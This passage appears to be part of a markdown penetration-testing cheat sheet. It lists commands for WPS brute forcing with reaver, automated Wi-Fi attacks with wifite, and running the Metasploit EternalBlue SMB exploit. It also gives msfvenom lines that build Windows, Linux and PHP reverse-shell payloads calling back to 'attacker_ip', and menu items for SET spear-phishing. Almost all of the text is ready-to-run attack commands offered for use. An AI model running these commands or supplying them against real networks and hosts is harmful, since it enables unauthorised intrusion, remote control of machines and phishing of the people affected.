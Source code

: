 - **reaver**: WPS attack tool
  ```bash
  # WPS brute force
  reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv
  ```

- **wifite**: Automated wireless attack tool
  ```bash
  # Automated WiFi attack
  wifite
  
  # Attack specific network
  wifite --bssid AA:BB:CC:DD:EE:FF
  ```

## Exploitation Frameworks

### Metasploit Framework
- **msfconsole**: Main Metasploit interface
  ```bash
  # Start Metasploit
  msfconsole
  
  # Search for exploits
  search type:exploit platform:windows
  
  # Use exploit
  use exploit/windows/smb/ms17_010_eternalblue
  
  # Set options
  set RHOSTS target_ip
  set LHOST attacker_ip
  
  # Run exploit
  exploit
  ```

- **msfvenom**: Payload generator
  ```bash
  # Windows reverse shell
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > shell.exe
  
  # Linux reverse shell
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf > shell.elf
  
  # PHP web shell
  msfvenom -p php/meterpreter_reverse_tcp LHOST=attacker_ip LPORT=4444 -f raw > shell.php
  ```

### Social Engineering
- **social-engineer-toolkit (SET)**: Social engineering framework
  ```bash
  # Start SET
  setoolkit
  
  # Spear-phishing attack vectors
  # Website attack vectors
  # Infectious media generator
  # Create payload and listener
  ```
